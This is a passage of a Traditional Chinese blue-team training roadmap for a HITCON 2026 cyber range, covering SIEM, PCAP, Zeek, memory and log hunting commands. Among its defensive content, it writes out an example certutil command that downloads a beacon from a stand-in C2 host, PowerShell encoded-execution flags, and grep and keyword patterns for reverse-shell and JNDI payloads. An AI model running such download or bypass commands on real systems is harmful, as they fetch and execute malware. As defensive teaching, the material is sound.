

# 🛡️ cyber_range_blue_team_roadmap.md (HITCON 2026 藍隊 Cyber Range 實戰攻防靶場特訓指南)

> [!IMPORTANT]
> **文件版本**: `v1.0` (HITCON 藍隊靶場全員同步特訓專用版)  
> **適用賽事**: **HITCON 2026 Cyber Range（藍隊網路靶場 / 企業安全防禦演練 / SOC 實戰防衛戰）**  
> **核心指導原則**: **【全員全能 (All-Rounder) ＋ 零分工摩擦 (Zero Division Friction)】**  
> **重大變革宣告**:  
> 徹底摒棄過往「隊員 A 專攻 Web、隊員 B 專攻鑑識、隊員 C 專攻網路」的片段分工！在真實的 Cyber Range 靶場中，每一次入侵事件都貫穿「Web 打點 ➔ 記憶體注入 ➔ 橫向移動 ➔ 封包外洩」的完整 Kill Chain。過去的分工模式極易導致一人卡關全隊停擺、遇到未劃分領域互踢皮球。  
> **B5 課表要求：全員學 100% 相同的技術、敲 100% 相同的命令、解 100% 相同的靶場！全隊具備完全同構的藍隊防禦基因，隨時可互相接管、交叉覆核、同步併發應變！**

---

## 🏟️ HITCON Cyber Range 靶場賽制與考核架構剖析

HITCON 藍隊 Cyber Range 通常模擬大型跨國企業或高科技園區的真實混合架構（Hybrid Enterprise Network），包含：
- **DMZ 邊界區**：對外的 Web 伺服器（Nginx / Apache）、API 閘道、郵件伺服器。
- **內部辦公網 (Intranet)**：Windows Active Directory 網域控制站（DC）、多台員工工作站（Windows 10/11）、檔案共用伺服器（SMB）。
- **核心資料庫與運營區**：MySQL / MSSQL、內部 Jenkins CI/CD、Linux 應用程式伺服器。
- **監控中樞 (SOC Infrastructure)**：中央 SIEM（Splunk / OpenSearch / ELK）、網路傳感器（Zeek / Suricata）、端點遙測（Sysmon / EDR Agent）。

### 🏆 靶場四大奪分評分維度 (Scoring Dimensions)

| 評分維度 | 考核實戰能力 | 典型題目形式與交付成果 |
| :--- | :--- | :--- |
| **1. 告警研判與溯源 (Triage & Threat Hunting)** | 從海量日誌中快速過濾雜訊，精準還原攻擊時間線 | 回答：攻擊者入口 IP、發起時間、利用的 CVE 編號、初始下載惡意檔案的 SHA-256、入侵所用的漏洞參數。 |
| **2. 數位鑑識與奪旗 (DFIR & Flag Recovery)** | 主機與網路封包深潛，逆推攻擊者動作並解密 Flag | 回答：被注入的合法進程名稱與 PID、C2 通訊協定與解密金鑰、外洩資料庫內容、尋回系統中隱匿的 `hitcon{...}` Flag。 |
| **3. 圍堵防禦與系統加固 (Containment & Hardening)** | 立即切斷威脅、根除後門、修補漏洞並維持服務上線 | 實機操作：下達 iptables/防火牆規則阻斷 C2、強制終止惡意進程、清理持久化 Crontab/Service/登錄檔，加固系統且通過靶場 SLA 巡檢。 |
| **4. 偵測工程與規則撰寫 (Detection Engineering)** | 針對捕獲的新型威脅提煉出標準化防禦特徵 | 交付物：撰寫符合語法的 **Sigma 規則**（日誌端）、**YARA 規則**（檔案與記憶體特徵）、**Suricata 簽章**（網路特徵）。 |

---

## 🗺️ 全棧藍隊攻防戰力全景圖 (7 大核心階段修煉手冊)

本表彙整藍隊在真實企業攻防與 Cyber Range 靶場中的 **7 大核心能力鏈**，完全對接開源工具、內部離線教材庫（完整索引詳見 [sources_index.md](../90_runs/sources_index.md)）與免費用戶可直接造訪的實操資源：

| 階段 (Stage) | 核心學習主題與研判思維 | 必修實戰命令與排查語法 | 實作與教材對應資源 |
| :--- | :--- | :--- | :--- |
| **階段 1**<br>🌐 **網路流量與通訊研判** | • TCP 三向交握狀態機與異常重傳/RST 分析<br>• HTTP 串流重組（Follow Stream）與惡意檔案提取<br>• DNS 隱蔽隧道（dnscat2/iodine）特徵識別<br>• C2 心跳連線模式（Cobalt Strike Beacon/Jitter 抖動） | `tshark -r net.pcap -Y "http.request" -T fields -e ip.src -e http.host -e http.request.uri`<br>`tshark -r net.pcap -q -z conv,ip`<br>`tshark -r net.pcap --export-objects "http,./dump"` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`06_網路安全與數位取證/03_流量分析PCAP/Wireshark專題/`<br>📁 **本機真題**：`../../../security/practice/exams/mock_exam_b_lab_questions.md`（第 52~81 題）<br>🌐 **線上練習**：[Malware Traffic Analysis (MTA)](https://www.malware-traffic-analysis.net/) |
| **階段 2**<br>🧠 **記憶體與無檔案取證** | • Windows 核心進程親緣樹（`System` ➔ `smss` ➔ `services` ➔ `svchost`）<br>• `pslist` 雙向鏈表 vs `psscan` 核心特徵碼（破除 DKOM 隱藏）<br>• `malfind` 辨識 `PAGE_EXECUTE_READWRITE` (RWX) 注入代碼<br>• 導出記憶體 Payload 並逆向提取 C2 配置資訊 | `python3 vol.py -f mem.raw windows.pstree`<br>`python3 vol.py -f mem.raw windows.malfind`<br>`python3 vol.py -f mem.raw windows.netscan`<br>`strings -e l dump.dmp \| grep -iE "http://\|https://"` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`06_網路安全與數位取證/04_數位取證DFIR/PDF元數據數位取證/`<br>📁 **本機真題**：`../../../security/practice/exams/mock_exam_b_lab_questions.md`（第 1~5 題）<br>🌐 **線上練習**：[CyberDefenders - RedLine](https://cyberdefenders.org/blueteam-ctf-challenges/redline/)<br>📖 **手冊**：[SANS Memory Forensics Cheat Sheet (PDF)](https://www.sans.org/posters/memory-forensics-cheat-sheet/) |
| **階段 3**<br>📑 **主機日誌與端點遙測** | • Windows Security 日誌：4624 (登入類型 3/10)、4625 (爆破)、7045 (新服務)<br>• Sysmon 驅動級遙測：EID 1 (進程/命令列)、EID 3 (網路連線)、EID 8 (遠端線程)<br>• 識破合法程式白利用（LOLBAS：`powershell -enc`, `certutil`, `rundll32`） | `Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} -MaxEvents 100`<br>`Get-WinEvent -FilterHashtable @{LogName='System'; Id=7045}`<br>`Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1}` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/04_護網專案營運/藍隊日誌/HW16-告警日志分析技术-v1.1.pdf`<br>📁 **本機真題**：`../../../security/practice/exams/mock_exam_b_lab_questions.md`（第 6~11 題）<br>🌐 **開源工具**：[DeepBlueCLI (PowerShell 官方開源腳本)](https://github.com/sans-blue-team/DeepBlueCLI) |
| **階段 4**<br>🗄️ **磁碟工件與時間線** | • NTFS 雙時間戳：`$STANDARD_INFORMATION` (0x10) vs `$FILE_NAME` (0x30)<br>• 識破攻擊者 Timestomping（時間戳偽造）<br>• 程式執行三大證據：Prefetch (.pf 執行次數與DLL)、Amcache (SHA1 Hash)、Shimcache | `MFTECmd.exe -f "C:\C\$MFT" --csv "C:\Analysis"`<br>`PECmd.exe -d "C:\Windows\Prefetch" --csv "C:\Analysis\Prefetch"`<br>`AmcacheParser.exe -f "Amcache.hve" --csv "C:\Analysis"` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/04_護網專案營運/藍隊日誌/HW17-快速应急响应技术-v1.0.pdf`<br>🌐 **開源神器**：[Eric Zimmerman's Tools 官方套件](https://ericzimmerman.github.io/)<br>📖 **手冊**：[SANS Windows Forensic Analysis Poster](https://www.sans.org/posters/windows-forensic-analysis/) |
| **階段 5**<br>🕷️ **Web 攻擊排查與內存馬** | • Web 存取日誌四步研判法：請求 Payload ➔ 狀態碼 ➔ 回應長度 ➔ 主機外聯<br>• 一句話木馬排查（`eval($_POST[...])`）與冰蠍/哥斯拉流量解密<br>• 無檔案 Java 內存馬（Filter/Servlet 內存馬）原理<br>• 使用 Alibaba Arthas 現場逆向反編譯（`jad`）記憶體類別 | `awk '{print $1}' access.log \| sort \| uniq -c \| sort -nr`<br>`grep -iE "(\$\{jndi\|bash%20-i\|eval\()" access.log`<br>`find /var/www/html -name "*.php" -mtime -2`<br>`java -jar arthas-boot.jar` ➔ `sc *.Filter` ➔ `jad <FilterName>` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/03_日誌與告警研判/Web日誌分析與逃逸檢測/Web日志安全分析工具 v2.0.zip`<br>🌐 **開源神器**：[Alibaba Arthas 官方開源工具](https://arthas.aliyun.com/)<br>🌐 **開源排查工具**：[Loki (IOC / Webshell 掃描器)](https://github.com/Neo23x0/Loki) |
| **階段 6**<br>🚧 **圍堵阻斷與系統加固** | • Cyber Range 賽事 SLA 保障：嚴禁拔網線/停用網卡，實施微創單點阻斷<br>• Linux 後門清剿：Crontab、`/etc/rc.local`、SUID 提權檔、SSH 公鑰<br>• Windows 後門根除：排程任務（Task Scheduler）、註冊表 RunKey、隱藏帳號 | `ss -antup \| grep ESTAB`<br>`iptables -I INPUT -s <C2_IP> -j DROP`<br>`iptables -I OUTPUT -d <C2_IP> -j DROP`<br>`find / -perm -4000 2>/dev/null`<br>`Get-ScheduledTask \| Where-Object { $_.State -ne 'Disabled' }` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/01_系統與資料庫加固/Linux系統安全加固/`<br>📁 **[內部離線教材]**：`07_藍隊防禦與護網營運/02_存取控制與防火牆/Linux存取控制與防火牆/防火牆練習-實驗-2024.docx`<br>📁 **[內部離線手冊]**：`HW09-安全加固实施标准-v1.0.pdf` |
| **階段 7**<br>📐 **偵測工程與規則撰寫** | • 威脅特徵化（Detection as Code）<br>• YARA 規則撰寫：Strings, Hex, Condition 條件限制（避開性能雪崩）<br>• Sigma 規則撰寫：YAML 日誌特徵定義，並用 `sigmac` 轉譯為 Splunk SPL / Elastic 語法 | `yara -r my_rule.yar /var/www/html/`<br>`sigmac -t splunk -c win_sysmon rule.yml`<br>`sigmac -t es-qs rule.yml` | 📁 **[內部離線教材]**（詳見 [sources_index.md](../90_runs/sources_index.md)）：`07_藍隊防禦與護網營運/04_護網專案營運/藍隊日誌/HW18-安全事件闭环流程管理-v1.0.pdf`<br>🌐 **開源規則庫**：[SigmaHQ 官方開源規則庫](https://github.com/SigmaHQ/sigma)<br>🌐 **在線轉換工具**：[Sigma Converter Online](https://sigmaconverter.com/) |

---

## 🗓️ 14 天極速特訓時程表 (7 個 Run 逐日完整攻防藍圖)

全課表規劃為 **7 個 Run（共 14 天）**。每 Run 2 天，全隊 3 人每天同步學習同一主題、做同一批實機題目、晚間 22:00 集中檢討 60 分鐘。

```mermaid
gantt
    title HITCON 2026 藍隊 Cyber Range 14 天同步特訓課表
    dateFormat  YYYY-MM-DD
    section Run 1: SIEM & 日誌獵捕
    Day 1: Splunk SPL 語法與 BOTSv1 實戰     :2026-08-01, 1d
    Day 2: Sysmon 核心關聯與 Event Log 獵捕   :2026-08-02, 1d
    section Run 2: 網路流量與 C2 鑑識
    Day 3: Wireshark 深度過濾與惡意流量研判 :2026-08-03, 1d
    Day 4: C2 框架特徵與 Zeek 大流量溯源     :2026-08-04, 1d
    section Run 3: 記憶體深度取證
    Day 5: Volatility 3 核心命令與進程排查   :2026-08-05, 1d
    Day 6: 代碼注入 malfind 與 DKOM 斷鏈破譯 :2026-08-06, 1d
    section Run 4: 磁碟鑑識與時間線
    Day 7: KAPE 產物採集與 NTFS MFT 鑑識    :2026-08-07, 1d
    Day 8: Prefetch、Amcache 與執行痕跡重建  :2026-08-08, 1d
    section Run 5: Web 攻擊與日誌清剿
    Day 9: Web 漏洞打點審查與存取日誌分析   :2026-08-09, 1d
    Day 10: Webshell 排查、內存馬清剿與反序列化:2026-08-10, 1d
    section Run 6: 圍堵加固與規則撰寫
    Day 11: 主機應急阻斷、後門根除與服務加固 :2026-08-11, 1d
    Day 12: Sigma 與 YARA 偵測規則實戰編寫  :2026-08-12, 1d
    section Run 7: 全真 Cyber Range 模擬賽
    Day 13: 企業混合網 APT 端到端盲測演練   :2026-08-13, 1d
    Day 14: 賽後 Writeup 產出與三角協同覆盤  :2026-08-14, 1d
```

---

## 📘 第一階段：SIEM、主機日誌與端點遙測獵捕 (Run 1)

### Day 1：Splunk SPL 語法原理、SIEM 架構與 BOTSv1 入侵還原

*   **🎯 當日全員同步核心目標**：
    1. 理解 SIEM 核心架構（日誌採集 Forwarder ➔ 索引 Indexer ➔ 搜尋頭 Search Head）與常見資料來源（Syslog, WinEventLog, Stream, Web Proxy）。
    2. 掌握 Splunk 核心高頻 SPL 指令原理（`index=`, `sourcetype=`, `stats count by`, `eval`, `rex`, `transaction`, `table`）。
    3. 全員完成經典靶場 Splunk BOTSv1 (Boss of the SOC v1) 之 Initial Access 與 Reconnaissance 階段還原。
    4. 能在 5 分鐘內由數百萬筆 Log 中定位黑客爆破 IP、攻擊時間戳與滲透載荷。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：什麼是 SIEM 與事件時間戳校準？**  
        SIEM（Security Information and Event Management）負責集中匯流海量設備日誌。在分析日誌時，必須注意 `_time`（日誌事件發生時間）與 `_indextime`（日誌被寫入 SIEM 的時間）的區別。攻擊者可能會竄改本地主機時間，但難以竄改傳輸與索引時間。
    *   **核心觀念 2：Splunk 搜尋處理語言 (SPL) 的管道管線 (Pipeline) 哲學**  
        SPL 採用類似 Linux 的管道符 `|`，每個命令的輸出作為下一個命令的輸入：
        - **檢索過濾層 (Filter First)**：在第一個管道前，盡可能透過 `index=...`、`sourcetype=...` 縮小搜尋範圍，切忌使用全庫模糊搜尋 `index=* *cmd.exe*`，這會拖垮 SIEM 性能並超時。
        - **欄位提取與計算 (Transform)**：利用 `eval is_alert=if(status>=400, 1, 0)` 或 `rex field=_raw "user=(?<username>\w+)"` 動態提取未知欄位。
        - **聚合統計 (Aggregate)**：`stats count, distinct_count(src_ip) as unique_ips by uri` 快速聚焦高頻異常行為。
    *   **推薦對照教材與參考講義**：
        - 本地參考：`HW16-告警日志分析技术-v1.1.pdf`（重點研讀第 2 章：Web 日誌與安全設備告警關聯思維）。
        - 官方手冊：[Splunk Search Reference (Cheat Sheet)](https://docs.splunk.com/Documentation/Splunk/latest/SearchReference)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：Splunk 官方 Boss of the SOC (BOTSv1) Dataset 或 TryHackMe - BOTSv1 專題房間。
    *   **全員必解題型**：
        1. 找出對內部伺服器進行網頁掃描（Acunetix / Nikto / SQLMap）的外網惡意攻擊者 IP。
        2. 統計受攻擊目標被嘗試登入失敗（4625）次數最高的 Username 清單。
        3. 尋找攻擊者利用 CMS (Joomla) 外掛漏洞上傳之惡意檔案名稱與路徑。
    *   **高頻 SPL 命令實戰手冊**：
        ```spl
        # 1. 搜尋特定時間範圍內的 Web 訪問日誌並統計異常 IP
        index=botsv1 sourcetype=stream:http
        | stats count by src_ip, uri, status
        | sort - count

        # 2. 搜尋 SQL 注入常見特徵或掃描特徵
        index=botsv1 (uri="*union*" OR uri="*select*" OR uri="*'%20OR*")
        | table _time, src_ip, dest_ip, uri, status

        # 3. 搜尋上傳之 Webshell 檔案與 HTTP 200 回應
        index=botsv1 sourcetype=stream:http status=200 method=POST
        | search uri="*.php" OR uri="*.jsp" OR uri="*.asp*"
        | table _time, src_ip, dest_ip, uri, http_user_agent
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：請問攻擊者上傳至 Joomla 網站之惡意 webshell 檔案名為何？其 SHA256 為何？
    *   **檢核點 2**：攻擊者用來執行內網掃描的工具 User-Agent 為何？

---

### Day 2：Sysmon 核心事件關聯與 Windows Event Log 深度獵捕

*   **🎯 當日全員同步核心目標**：
    1. 掌握 Sysmon 核心架構與 Event ID 語義（EID 1 進程建立、EID 3 網路連接、EID 7 模組載入、EID 8 CreateRemoteThread、EID 10 ProcessAccess、EID 11 檔案寫入）。
    2. 掌握 Windows Security Log 核心事件（4624 登入類型、4625 失敗、4688 進程命令列、4720 帳號建立、7045 新增服務）。
    3. 全員能在無 GUI 環境下使用 PowerShell `Get-WinEvent` 快速過濾事件。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：為什麼 Windows 預設日誌不夠用，必須依賴 Sysmon？**  
        Windows 預設安全性日誌僅記錄「進程被啟動（4688）」，但預設不記錄進程啟動時夾帶的「完整命令列參數（CommandLine）」、也沒有記錄進程產生的雜湊值（SHA256）。Sysmon（System Monitor）是微軟官方 Sysinternals 工具，作為底層驅動運行，能記錄父子進程樹、命令列參數、檔案哈希、網路連線 IP 與記憶體注入動作。
    *   **核心觀念 2：攻擊者最愛濫用的 LOLBAS（Living Off The Land Binaries）**  
        攻擊者不會傻傻上傳未簽名的黑客工具，而是直接呼叫系統自帶的合法程式執行惡意行為：
        - `powershell.exe -ExecutionPolicy Bypass -NoProfile -enc ...`（Base64 編碼無檔案落地執行）
        - `certutil.exe -urlcache -split -f http://c2/beacon.exe`（微軟憑證工具被當成下載器）
        - `rundll32.exe`, `mshta.exe`, `regsvr32.exe`（用合法二進位檔加載惡意 DLL/腳本）
    *   **推薦對照教材與參考講義**：
        - 本地參考：`HW08-关键安全配置解析-v1.5.pdf`（重點研讀 Windows 審核原則配置與日誌增強）。
        - 實戰文章：[Microsoft Learn - Sysmon 官方架構與 EID 完整說明](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "BossOfTheSOC" / "DeepBlueCLI" 訓練靶場 或 本地 Windows Event Log 樣本。
    *   **全員必解題型**：
        1. 透過 Sysmon EID 1 關聯找出惡意進程之父進程鏈（ParentProcessName 與 CommandLine），識破 LOLBAS 濫用（如 `powershell.exe -enc`, `certutil -urlcache`, `rundll32.exe`）。
        2. 透過 Sysmon EID 3 定位惡意進程發起外聯的遠端 C2 IP 與 Port。
        3. 透過 Security Log EID 7045 / System Log 找出攻擊者安裝的持久化服務名稱與 Binary 路徑。
    *   **PowerShell 現場緊急獵捕腳本**：
        ```powershell
        # 1. 快速抓出包含 Base64 或隱藏指令之 PowerShell 進程 (EID 4688 / Sysmon 1)
        Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; Id=1} -MaxEvents 500 |
            Where-Object { $_.Message -match 'powershell|cmd|certutil|rundll32|mshta' } |
            Select-Object TimeCreated, Id, @{N='Msg';E={$_.Message}} | Format-List

        # 2. 獵捕新建的持久化 Windows 服務 (EID 7045)
        Get-WinEvent -FilterHashtable @{LogName='System'; Id=7045} |
            Select-Object TimeCreated, @{N='ServiceName';E={$_.Properties[0].Value}}, @{N='ImagePath';E={$_.Properties[1].Value}}

        # 3. 獵捕 RDP 異常登入 (EID 4624 LogonType 10)
        Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} -MaxEvents 1000 |
            Where-Object { $_.Properties[8].Value -eq 10 } |
            Select-Object TimeCreated, @{N='User';E={$_.Properties[5].Value}}, @{N='SrcIP';E={$_.Properties[18].Value}}
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：當看到 `svchost.exe` 的父進程是 `cmd.exe` 或 `powershell.exe` 時，這代表什麼異常指標？
    *   **檢核點 2**：Sysmon EID 8 代表什麼行為？與哪種經典 APT 注入技術直接對應？

---

## 🌐 第二階段：網路流量、PCAP 取證與 C2 惡意通訊研判 (Run 2)

### Day 3：Wireshark 深度過濾、TCP/HTTP 協定取證與惡意流量研判

*   **🎯 當日全員同步核心目標**：
    1. 理解 TCP 三向交握、重傳、RST 異常中斷與 HTTP/TLS 握手連線架構。
    2. 精通 Wireshark 顯示過濾語法（`ip.addr`, `tcp.flags`, `http.request`, `tls.handshake`）與 Tshark 命令行提取技巧。
    3. 能迅速從數百 MB 的 PCAP 中還原 HTTP 上傳檔案、取出惡意 Payload、分析 TLS 握手憑證與 DNS 異常查詢。
    4. 全員掌握從 PCAP 提取惡意 Executable 與 Base64 編碼文字的標準流程。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：Wireshark 的兩種過濾器差異（Capture Filter vs Display Filter）**  
        - **擷取過濾器 (BPF 語法)**：在網卡抓包當下生效（如 `tcp port 80 and host 192.168.1.1`），用於節省硬碟空間。
        - **顯示過濾器 (Wireshark 語法)**：在已捕獲的封包中篩選（如 `http.response.code == 200 && http.content_type contains "image"`），用於事後鑑識。
    *   **核心觀念 2：TCP 串流追蹤 (Follow TCP Stream) 與檔案還原**  
        單個 TCP 封包最大通常僅約 1460 bytes（MTU 1500），攻擊者傳輸的 WebShell、二進位木馬或外洩機密檔案會被切成數十甚至數千個封包。利用「Follow TCP Stream」可重組雙向通訊；透過「File ➔ Export Objects ➔ HTTP」可一鍵抽取還原傳輸檔案。
    *   **推薦對照教材與參考講義**：
        - 內部離線精選（詳見 [sources_index.md](../90_runs/sources_index.md)）：`06_網路安全與數位取證/03_流量分析PCAP/Wireshark專題_流量監聽與分析/` 影片 1~8 及講義。
        - 實戰文章：[Wireshark Display Filter Reference 官方手冊](https://www.wireshark.org/docs/dfref/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "PacketMaze" / "Malware Traffic Analysis (MTA)" 訓練 PCAP。
    *   **全員必解題型**：
        1. 透過 Wireshark `http.request.method == "POST"` 匯出釣魚郵件點擊後下載的惡意二進位檔案，並計算 MD5。
        2. 分析 DNS 查詢流量，找出異常高頻率或字串極長的域名，確認 DNS Tunneling (如 dnscat2 / Iodine)。
        3. 透過 `ssl.handshake.extensions_server_name` 辨識受害機器連線之惡意 C2 域名。
    *   **Tshark 現場秒殺命令行**：
        ```bash
        # 1. 統計所有 DNS 請求域名與次數 (排查 DNS Tunneling 與 DGA)
        tshark -r capture.pcap -T fields -e dns.qry.name | sort | uniq -c | sort -nr | head -n 30

        # 2. 提取所有 HTTP POST 請求之 URI、主機與來源 IP
        tshark -r capture.pcap -Y 'http.request.method == "POST"' -T fields -e ip.src -e ip.dst -e http.host -e http.request.uri

        # 3. 提取 TLS 伺服器握手 SNI 域名 (判斷 HTTPS 外聯目標)
        tshark -r capture.pcap -Y 'tls.handshake.extension.type == 0' -T fields -e ip.dst -e tls.handshake.extensions_server_name | sort -u
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：DNS Tunneling 的典型特徵（子域名長度、熵值、查詢類型 TXT）在 Wireshark 中如何篩選？
    *   **檢核點 2**：如何使用 Tshark 直接將 PCAP 中的惡意二進位檔案自動 Dump 到硬碟？

---

### Day 4：C2 框架特徵破譯 (Cobalt Strike / Sliver) 與 Zeek 大流量溯源

*   **🎯 當日全員同步核心目標**：
    1. 掌握主流 C2 框架架構（Cobalt Strike, Sliver, Havoc）與通信協定封裝（Malleable C2 Profile, Beacon 心跳, Jitter 抖動機制）。
    2. 學會解讀 Zeek (Bro) 日誌架構 (`conn.log`, `dns.log`, `http.log`, `ssl.log`, `weird.log`) 進行百萬級連線大數據回溯。
    3. 全員具備「從 10GB 流量日誌中 3 分鐘定位 C2 通訊週期」的能力。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：為什麼有 PCAP 還需要 Zeek？**  
        Wireshark 適合排查單一會話（Deep Packet Inspection），但在企業級 Cyber Range 賽事中，流量往往達到數十 GB，Wireshark 打開會直接記憶體溢位崩潰。Zeek 能以流式引擎（Flow-based）即時將流量結構化為純文字日誌（TSV 格式），大幅降低分析負載，並能透過簡單的 shell 指令快速聚合統計。
    *   **核心觀念 2：Cobalt Strike Beacon 的心跳特徵與 Jitter 破譯**  
        Beacon 會定時向 C2 伺服器發起 Check-in 請求（預設 HTTP GET/POST）。紅隊為了避免被檢測出「每 60 秒固定發一次」的機械特徵，會加入 Jitter（抖動率，如 20%），讓間隔浮動在 48s ~ 72s 之間。藍隊的核心研判方法是「計算時間差標準差」，即使有 Jitter，連線間隔依然會在固定範圍內高度集中。
    *   **推薦對照教材與參考講義**：
        - 本地參考：`27.红队攻击指南 流量加密 03 cobalt strike 生成ssl证书修改c2 profile 加密流量逃逸检测.mp4`。
        - 實戰文檔：[Zeek 官方日誌手冊 (Logs by Protocol)](https://docs.zeek.org/en/master/logs/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：Zeek 官方日誌練習集 / CyberDefenders - "ZeekLogForensics"。
    *   **全員必解題型**：
        1. 使用 Zeek-cut 分析 `conn.log`，計算連線間隔差值（Delta Time），找出規律發送心跳（如固定每 30s ± 10% 抖動）的 Beacon IP。
        2. 從 `ssl.log` 中找出使用自簽證書（Self-signed Certificate）或偽造預設證書（如 Default Cobalt Strike SSL 證書）的惡意節點。
        3. 從 `http.log` 中找出特徵 URI（如 CS 預設 `/activity`, `/pixel.gif`, `/submit.php`）。
    *   **Zeek 日誌獵捕經典指令**：
        ```bash
        # 1. conn.log 統計單一主機外聯連線數最多的前 10 個 IP 與 Port
        zeek-cut id.orig_h id.resp_h id.resp_p proto < conn.log | sort | uniq -c | sort -nr | head -n 20

        # 2. ssl.log 檢視不信任或異常的憑證主題名稱
        zeek-cut id.resp_h server_name subject issuer < ssl.log | sort -u

        # 3. 計算連線間隔以辨識 C2 心跳 (Python 輔助)
        python3 -c "
        import sys
        from collections import defaultdict
        times = defaultdict(list)
        for line in open('conn.log'):
            if line.startswith('#'): continue
            parts = line.strip().split('\t')
            ts, ip = float(parts[0]), parts[4]
            times[ip].append(ts)
        for ip, t_list in times.items():
            if len(t_list) > 20:
                intervals = [round(t_list[i+1]-t_list[i], 1) for i in range(len(t_list)-1)]
                print(f'{ip}: 連線次數 {len(t_list)}, 平均間隔 {sum(intervals)/len(intervals):.2f}s, 前5次間隔: {intervals[:5]}')
        "
        ```

*   **📝 晚間 22:00 全員檢核題目**：
    *   **檢核點 1**：Cobalt Strike 的 Jitter 概念為何？若 Beacon 設定 60s 且 Jitter 為 20%，連線間隔會在什麼範圍？
    *   **檢核點 2**：在 Zeek 的 `weird.log` 中，哪些常規異常代表惡意掃描或漏洞嘗試？

---

## 💻 第三階段：記憶體取證、代碼注入與進程排查 (Run 3)

### Day 5：Volatility 3 核心命令、進程排查與 DKOM 隱藏破解

*   **🎯 當日全員同步核心目標**：
    1. 理解 Windows 核心物件架構（`EPROCESS` 結構體、`ActiveProcessLinks` 雙向鏈表、PID/PPID 關係樹）。
    2. 熟練使用 Volatility 3（`windows.pslist`, `windows.psscan`, `windows.pstree`, `windows.netscan`, `windows.cmdline`）。
    3. 理解進程隱藏技術（DKOM 雙向鏈表斷鏈、進程偽裝、父子進程詐騙）。
    4. 全員能在 10 分鐘內從 2GB+ 記憶體鏡像（.raw, .vmem, .dmp）中畫出攻擊者建立的完整進程樹。

*   **📚 前置必讀教材與核心概念解析（全員 09:00 - 12:00 研讀）**：
    *   **核心觀念 1：`pslist` vs `psscan` 的底層本質差異（如何識破 Rootkit 隱藏？）**  
        - `windows.pslist`：從 Windows 核心的 `PsActiveProcessHead` 開始，順著雙向循環鏈表（`ActiveProcessLinks`）遍歷所有進程。若 Rootkit 使用 DKOM（Direct Kernel Object Modification）將惡意進程的 `Flink`/`Blink` 指針修改斷開，`pslist` 就看不到它！
        - `windows.psscan`：不走鏈表，而是暴力掃描整塊實體記憶體，搜尋 `_EPROCESS` 結構體的特徵碼（Pool Tag `Proc`）。即使進程斷鏈，只要它還在運行、記憶體分頁尚未被覆蓋，`psscan` 就能抓出來！比對兩者差異即可揪出被隱藏的惡意進程。
    *   **核心觀念 2：進程樹正常親緣關係判定（Parent-Child Spoofing）**  
        - `System (PID 4)` ➔ 啟動 `smss.exe` ➔ 啟動 `wininit.exe` ➔ 啟動 `services.exe` ➔ 啟動所有 `svchost.exe`。
        - 任何不是由 `services.exe` 啟動的 `svchost.exe`（例如 PPID 指向 `explorer.exe` 或 `cmd.exe`），100% 是偽裝後門！
    *   **推薦對照教材與參考講義**：
        - 內部離線精選（詳見 [sources_index.md](../90_runs/sources_index.md)）：`06_網路安全與數位取證/04_數位取證DFIR/PDF元數據數位取證/教主Kali与Python黑客.9.调查取证.pdf`。
        - 官方手冊：[Volatility 3 官方命令手冊與外掛清單](https://volatility3.readthedocs.io/en/stable/)。

*   **🧪 全員同步必修實作關卡（全員 13:30 - 18:00 實機）**：
    *   **實機環境**：CyberDefenders - "DumpsterFire" 或 "Redline" 記憶體映像。
    *   **全員必解題型**：
        1. 使用 `windows.pslist` 與 `windows.psscan` 交叉比對，找出存在於記憶體分頁卻不在活躍鏈表中的被隱藏進程（DKOM）。
        2. 使用 `windows.cmdline` 提取惡意進程啟動時夾帶的惡意參數（如 Base64 載荷或臨時目錄執行路徑）。
        3. 使用 `windows.netscan` 找出具有 ESTABLISHED 外部連線的異常進程 PID。
    *   **Volatility 3 核心實戰命令集**：
        ```bash
        # 1. 輸出完整進程樹形圖
        python3 vol.py -f memory.raw windows.pstree

        # 2. 交叉比對隱藏進程 (DKOM 獵捕)
        python3 vol.py -f memory.raw windows.psscan > psscan.txt
